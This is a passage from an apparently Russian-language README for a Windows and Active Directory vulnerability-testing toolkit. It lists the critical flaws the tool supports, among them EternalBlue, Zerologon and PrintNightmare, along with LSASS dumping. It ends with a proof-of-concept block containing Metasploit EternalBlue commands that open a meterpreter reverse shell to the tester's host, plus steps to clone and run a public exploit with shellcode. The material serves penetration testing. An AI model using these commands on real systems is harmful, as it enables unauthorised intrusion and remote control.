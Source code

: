 ### Логи ошибок
Все ошибки сохраняются в:
- `failures.log` - общие ошибки
- `results/*.errors` - детальные ошибки по модулям

---

## 🎯 ПОДДЕРЖИВАЕМЫЕ УЯЗВИМОСТИ

### КРИТИЧЕСКИЕ (CRITICAL)
- **MS17-010 (EternalBlue)** - CVE-2017-0144
- **SMBGhost** - CVE-2020-0796  
- **Zerologon** - CVE-2020-1472
- **PrintNightmare** - CVE-2021-34527
- **PetitPotam** - CVE-2021-36942

### ВЫСОКИЕ (HIGH)
- Print Spooler коуэрсия
- WebDAV уязвимости
- SCCM конфигурации
- LSASS дампинг

### СРЕДНИЕ (MEDIUM)
- LDAP анонимный bind
- GPP пароли
- LAPS конфигурации
- RDP настройки

---

## 🚨 ДЕТАЛЬНЫЕ PoC ИНСТРУКЦИИ

Для каждой критической уязвимости включены:

### MS17-010 пример:
```bash
# Metasploit Framework:
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [TARGET]
set payload windows/x64/meterpreter/reverse_tcp
set LHOST [YOUR_IP]
exploit

# Manual exploit:
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
python eternalblue_exploit7.py [TARGET] shellcode/sc_x64.bin
```

---
